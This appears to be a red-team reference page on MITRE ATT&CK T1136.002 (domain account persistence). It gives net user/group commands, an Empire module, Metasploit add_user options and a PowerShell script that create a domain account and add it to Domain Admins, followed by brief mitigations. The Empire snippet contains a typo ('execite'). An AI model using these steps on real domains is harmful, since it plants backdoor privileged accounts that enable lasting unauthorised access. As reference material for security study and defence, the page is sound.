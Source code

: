 ```yaml
---
description: https://attack.mitre.org/techniques/T1136/002/
---
```


# Domain Account

**ATT\&CK ID:** [T1136.002](https://attack.mitre.org/techniques/T1136/002/)

**Permissions Required:** <mark style="color:red;">**Administrator**</mark>

**Description**

Adversaries may create a domain account to maintain access to victim systems. Domain accounts are those managed by Active Directory Domain Services where access and permissions are configured across systems and services that are part of that domain. Domain accounts can cover user, administrator, and service accounts. With a sufficient level of access, the `net user /add /domain` command can be used to create a domain account.

Such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.

## **Techniques**

### **CMD**

```bash
# Create Domain User
net user "<Username>" "<Password>" /add /domain

# Add to Domain Admins Group
net group "Domain Admins" "<Username>" /add /domain
```

![](../../../../.gitbook/assets/netuser-domain.png)

### **Empire**

```bash
usemodule/powershell/persistence/misc/add_netuser

# Local account
set Domain ''
set UserName <Username>
execite

# Domain Account
set Domain <Domain>
set UserName <Username>
execute
```

![](<../../../../.gitbook/assets/image (1348).png>)

### Metasploit

```
use post/windows/manage/add_user 

# Change ADDTODOMAIN to FALSE to create local account

   Name         Current Setting  Required  Description
   ----         ---------------  --------  -----------
   ADDTODOMAIN  true             yes       Add to Domain if true, otherwise add locally
   ADDTOGROUP   true             yes       Add group if it does not exist
   GROUP        Domain Admins    no        Add user into group, creating it if necessary
   PASSWORD     Password123      no        Password of the user
   SESSION      Session 1        yes       The session to run this module on
   TOKEN                         no        Username or PID of the token which will be used (if blank, Domain Admin tokens will be enumerated)
   USERNAME     ViperOne         yes       The username of the user to add (not-qualified, e.g. BOB)
```

### **PowerShell**

```powershell
$Name = "<Username>"
$Domain = "<Domain>"
$Password = "Password123"
$SecurePass = ConvertTo-SecureString -String $Password -AsPlainText -Force
$NewUser = New-ADUser `
    -Name "$Name"`
    -SamAccountName "$Name"`
    -UserPrincipalName "$Name@$Domain"`
    -AccountPassword $SecurePass;  
Enable-ADAccount -Identity "$Name";
Add-ADGroupMember -Identity "Domain Admins" -Members "$Name"
```

![](../../../../.gitbook/assets/PowerShell-New-ADUser.png)

## **Mitigation**

* Protect domain controllers by ensuring proper security configuration for critical servers.
* Configure access controls and firewalls to limit access to domain controllers and systems used to create and manage accounts.
* Use multi-factor authentication for user and privileged accounts.

## **Further Reading**

**CMD:** [**https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865(v=ws.11)**](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771865\(v=ws.11\))\*\*\*\*

**PowerShell:** [**https://docs.microsoft.com/en-us/powershell/module/activedirectory/new-aduser?view=windowsserver2022-ps**](https://docs.microsoft.com/en-us/powershell/module/activedirectory/new-aduser?view=windowsserver2022-ps)\*\*\*\*

***

